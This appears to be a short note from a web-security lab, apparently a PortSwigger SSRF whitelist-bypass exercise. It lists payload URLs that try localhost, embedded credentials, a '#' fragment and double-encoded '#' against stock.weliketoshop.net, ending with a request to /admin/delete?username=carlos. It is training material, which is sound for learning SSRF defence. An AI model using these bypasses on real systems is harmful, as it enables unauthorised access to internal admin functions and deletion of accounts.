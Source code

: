 #try localhost
http://127.0.0.1

#try credentials
http://username@stock.weliketoshop.net/

#try #
http://username#@stock.weliketoshop.net/

#try encoding
http://username%2523stock.weliketoshop.net/

#
http://localhost:80%2523@stock.weliketoshop.net

http://localhost:80%2523@stock.weliketoshop.net/admin

http://localhost:80%2523@stock.weliketoshop.net/admin/delete?username=carlos
